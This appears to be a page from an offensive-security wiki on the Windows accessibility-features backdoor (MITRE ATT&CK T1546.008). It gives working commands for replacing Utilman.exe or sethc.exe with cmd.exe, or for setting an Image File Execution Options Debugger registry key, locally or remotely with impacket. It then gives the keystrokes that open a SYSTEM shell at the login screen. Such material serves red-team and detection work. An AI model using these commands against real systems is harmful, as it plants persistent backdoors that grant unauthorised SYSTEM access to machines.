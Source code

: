 ```yaml
---
description: >-
  MITRE ATT&CK™  Event Triggered Execution - Accessibility Features - Technique
  T1546.008
---
```


# Accessibility features Backdoor

## Theory

The concept here is pretty simple. Windows supports some built in accessibility features like Sticky Keys, Utilman, Narrator, Magnify that are available at pre-logon (at the login screen, either via a physical console or via Remote Desktop). Replacing them by cmd.exe live us with a SYSTEM access at pre-logon.

## Practice

{% tabs %}
{% tab title="Utilman.exe" %}
We can replace the `C:\Windows\System32\Utilman.exe` with a cmd.exe and rename it (utilman.exe). You may need to change utilman.exe owner to yourself first as TrustedIntaller may be giving you a hard time.

An other way is just to edit the [Image File Execution Options](image-file-execution-options.md) registry

```bash
#Windows
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

#Linux (with impacket)
reg.py <USER>:<PASSWORD>@<TARGET> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" -vt REG_SZ -v Debugger -vd "C:\windows\system32\cmd.exe"
```

Know, press `Windows Key`+`U` to spawn an elevated shell
{% endtab %}

{% tab title="Sethc.exe" %}
We can replace the `C:\Windows\System32\sethc.exe` with a cmd.exe and rename it (sethc.exe). You may need to change sethc.exe owner to yourself first as TrustedIntaller may be giving you a hard time.

An other way is just to edit the [Image File Execution Options](image-file-execution-options.md) registry

```bash
#Windows
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

#Linux (with impacket)
reg.py <USER>:<PASSWORD>@<TARGET> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -vt REG_SZ -v Debugger -vd "C:\windows\system32\cmd.exe"
```

Know, press `Shift Key` 5 time to spawn an elevated shell
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6" %}

{% embed url="https://pentestlab.blog/2019/11/13/persistence-accessibility-features/" %}
